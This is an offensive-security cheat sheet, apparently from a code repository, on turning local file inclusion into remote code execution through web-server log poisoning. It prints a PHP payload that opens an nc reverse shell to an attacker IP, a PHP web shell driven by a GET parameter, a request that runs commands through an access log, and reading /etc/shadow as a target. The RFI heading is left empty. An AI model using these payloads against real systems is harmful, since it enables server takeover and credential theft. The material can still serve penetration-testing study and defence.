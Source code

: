 # Local & Remote File Inclusion Attacks
> tips for exploiting LFI/RFI on a web app

## LFI
-----
#### Log Poisoning -> LFI to RCE
- if you can use LFI to retrieve log resource
1. set listener
2. change user-agent to this to this and then submit and use LFI again to request log resource
```<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [my-ip] 4444 >/tmp/f') ?>```
- Alternative method: 
1. connect via nc
```nc -nv [ip] 80```
2. send payload: 
```<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>```
- ignore the potential 400 Bad Request response
3. request the log file to execute the injected code (windows): 
```http://[ip]/examplePage.php?vulnerable=c:\xampp\apache\logs\access.log&cmd=ipconfig```

##### Files to check if you can read
- /etc/passwd -> find users on the system
- /etc/shadow -> if you can read this than the server is running the web app with root user, any rev shell will be auto-rooted
- 'c:\boot.ini' -> 


## RFI
------
